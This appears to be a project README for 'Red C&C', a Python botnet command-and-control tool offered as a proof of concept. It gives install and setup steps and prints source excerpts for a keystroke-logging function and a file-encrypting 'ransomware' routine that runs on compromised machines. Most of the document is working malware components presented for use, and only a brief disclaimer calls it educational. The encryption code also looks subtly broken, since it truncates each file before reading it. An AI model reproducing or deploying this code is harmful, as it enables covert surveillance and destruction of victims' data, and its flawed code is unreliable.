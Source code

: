 ```
				██████╗ ███████╗██████╗  	██████╗   ██╗    ██████╗
				██╔══██╗██╔════╝██╔══██╗	██╔════╝   ██║   ██╔════╝
				██████╔╝█████╗  ██║  ██║	██║     ████████╗██║     
				██╔══██╗██╔══╝  ██║  ██║	██║     ██╔═██╔═╝██║     
				██║  ██║███████╗██████╔╝	╚██████╗██████║  ╚██████╗
				╚═╝  ╚═╝╚══════╝╚═════╝  	╚═════╝╚═════╝   ╚═════╝
```                                            
Red C&C is a program focused on commanding and controlling a botnet. Red C&C consists of two scripts: one that will be executed by the attacker and one that will be downloaded and executed on the target machines. Red C&C will allow an attacker to send terminal commands to an entire botnet through a single interface using a single command. The purpose of Red C&C is to simplify the communication between an attacker and the machines that they have compromised. Red C&C uses two of Python's built-in modules for most of the heavy lifting: the **Socket** module for establishing a client-server communication between the attacker and the target machines, and the **Threading** module for dividing the two main functions of the program into two seperate threads. 

#### **Note**: Red C&C was created as a PoC and should not be used for malicious intent but for educational purposes.

### Installing Red C&C
```
# Install Git if its not installed.
apt install git

# Clone this repository to a folder of your choosing.
git clone https://github.com/binexisHATT/Red-C-C.git

# Change directory into the programs folder.
cd Red-C-C/

# Running the handler.
./ss.py

----------------------------------
Or you can create a symbolic link:

path = The path to the folder you cloned Red C&C in.
ln path/Red-C-C/scripts/net/ss.py /bin/redcc

With this symbolic link, typing "redcc" will execute the handler anywhere in the command line.

# Running the handler with symbolic link.
redcc
```
### Remember to change the IP address in both ss.py and cc.py to your IP address!
`IP = "Your IP address goes here!"`
# Some of Red C&C's Highlights
### Built-in Keylogger
```python
def on_press(key):
	global LOG
	try:
		LOG += str(key.char)
	except AttributeError:
		if key == key.space:
			LOG += ' '
		elif key == key.enter: LOG += '\n'
		elif key == key.backspace: LOG += '' 
		elif key == key.ctrl: LOG += ' ctrl+'
		elif key == key.tab: LOG += '\t'
		elif key == key.cmd: LOG += ' cmd+'
		elif key == key.alt: LOG += ' alt+'
		elif key == key.caps_lock: LOG += ' CapsLock '
		elif key == key.delete: LOG += ' Del '
		elif key == key.down: LOG += ' DownArrow '
		elif key == key.left: LOG += ' LeftArrow '
		elif key == key.up: LOG += ' UpArrow '
		elif key == key.right: LOG += ' RightArrow'
		elif key == key.esc: LOG += ' esc '
		elif key == key.home: LOG += ' HomeKey '
		elif key == key.insert: LOG += ' InsertKey '
		elif key == key.print_screen: LOG += ' PrintScreen '
		elif key == key.shift: LOG += ' shift+'
		elif key == key.f1: LOG += ' F1 '
		elif key == key.f2: LOG += ' F2 '
		elif key == key.f3: LOG += ' F3 '
		elif key == key.f4: LOG += ' F4 '
		elif key == key.f5: LOG += ' F5 '
		elif key == key.f6: LOG += ' F6 '
		elif key == key.f7: LOG += ' F7 '
		elif key == key.f8: LOG += ' F8 '
		elif key == key.f9: LOG += ' F9 '
		elif key == key.f10: LOG += ' F10 '
		elif key == key.f11: LOG += ' F11 '
		elif key == key.f12: LOG += ' F12 '
		else:
			LOG += str(key)
def keylogger():
	listener = keyboard.Listener(on_press=on_press)
	try:
		if SYSTEM == 'Linux':
			os.mkdir(LIN_DIR)
		else:
			os.mkdir(WIN_DIR)
		log_to_file()
		listener.start()
	except OSError:
		pass
```
### Built-in Rasonware Operations
```python
def crypto(action: str, *args):
	if action == 'encrypt':
		to_encrypt = args[0]
		with open(to_encrypt, 'wb+') as f:
			data = f.read()
			key = Fernet.generate_key()
			cipher = Fernet(key)
			cipher_text = cipher.encrypt(data)
			f.seek(0)
			f.write(cipher_text)
			f.truncate()
			return f'  Save the decryption key -> {key.decode()}'
	else:
		to_encrypt, key = args[0][0], args[0][1]
		with open(to_encrypt, 'wb+') as f:
			cipher_text = f.read()
			cipher = Fernet(key)
			try:
				plain_text = cipher.decrypt(cipher_text)
			except cryptography.fernet.InvalidToken:
				return '  [-] Invalid key!'
			f.seek(0)
			f.write(plain_text)
			f.truncate()
			return '  [+] File successfully decrypted!'
```

### Watch our project video demo here -->
